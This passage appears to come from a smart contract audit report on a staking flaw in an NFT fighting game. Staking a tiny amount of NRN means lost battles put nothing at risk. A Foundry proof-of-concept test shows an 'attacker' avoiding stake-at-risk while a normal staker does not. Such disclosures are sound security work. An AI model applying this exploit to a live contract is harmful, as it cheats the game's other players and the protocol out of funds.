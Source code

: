 1. Win -> User's fighter NFT gains points.
2. Lose + positive point balance -> Deduct from the point balance
3. Lose + no points -> Nothing happens (should move some of their NRN staked to the Stake At Risk contract)

## cProof of Concept

Consider the following scenario:

1. User deposits and stakes the amount of 9 * 10**2 NRN
2. User can play the game as intended when a user has staked balance
3. User wins matches and gains points, allowing him to claim NRN when the round ends
4. User cannon lose any NRN balance even if he loses every match he plays (should NOT be the case)

Proof of code:

Paste the following code in the `RankedBattle.t.sol` test file.

```javascript
    function testUserCantGetStakeAtRisk() public {

        // We create 2 addresses to compare them
        address attacker = vm.addr(3);
        address player = vm.addr(4);

        // We mint 1 NFT to the attacker, 1 to the player
        _mintFromMergingPool(attacker);
        _mintFromMergingPool(player);
        uint8 attackerTokenId = 0;
        uint8 playerTokenId = 1;

        // Use helper function to mint 4k NRN to each address
        _fundUserWith4kNeuronByTreasury(attacker);
        _fundUserWith4kNeuronByTreasury(player);

        // Deposit small amount with attacker and normal amount with player
        vm.prank(attacker);
        _rankedBattleContract.stakeNRN(9 * 10 ** 2, attackerTokenId);
        assertEq(_rankedBattleContract.amountStaked(attackerTokenId), 9 * 10 ** 2);
        vm.prank(player);
        _rankedBattleContract.stakeNRN(3_000 * 10 ** 18, playerTokenId);
        assertEq(_rankedBattleContract.amountStaked(playerTokenId), 3_000 * 10 ** 18);


        // Make both attacker and player lose their 1st battle
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(attackerTokenId, 0, 2, 1500, true);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(playerTokenId, 0, 2, 1500, true);
        

        // Verify both got a loss
        uint256 losses;
        (,, losses) = _rankedBattleContract.fighterBattleRecord(attackerTokenId);
        assertEq(losses, 1);
        (,, losses) = _rankedBattleContract.fighterBattleRecord(playerTokenId);
        assertEq(losses, 1);

        // Verify attacker got no stake at risk, while player got
        assert(_stakeAtRiskContract.getStakeAtRisk(0) == 0);
        assert(_stakeAtRiskContract.getStakeAtRisk(1) > 0);
        
        console.log(_stakeAtRiskContract.getStakeAtRisk(0));
        console.log(_stakeAtRiskContract.getStakeAtRisk(1));
    }
```
